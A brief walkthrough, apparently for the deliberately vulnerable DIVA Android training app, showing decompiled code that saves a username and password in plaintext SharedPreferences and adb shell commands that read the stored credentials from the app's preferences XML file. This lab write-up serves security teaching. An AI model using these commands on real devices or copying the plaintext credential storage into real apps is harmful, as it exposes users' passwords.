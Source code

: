 ## Insecure Data Storage Part 1

#### The vulnerability

As shown in the code, the username and password entered into the code is being stored directly into the xml file located in the shared_prefs directory

    public void saveCredentials(View view) {
        SharedPreferences.Editor editor = PreferenceManager.getDefaultSharedPreferences((Context)this).edit();
        view = (EditText)this.findViewById(2131493000);
        EditText editText = (EditText)this.findViewById(2131493001);
        editor.putString("user", view.getText().toString());
        editor.putString("password", editText.getText().toString());
        editor.commit();
        Toast.makeText((Context)this, (CharSequence)"3rd party credentials saved successfully!", (int)0).show();
    }
    
#### The exploit

To obtain the password, 
do
      adb shell
      cd /data/data/jakhar.aseem.diva/shared_prefs
      cat  jakhar.aseem.diva_preferences.xml
in the terminal
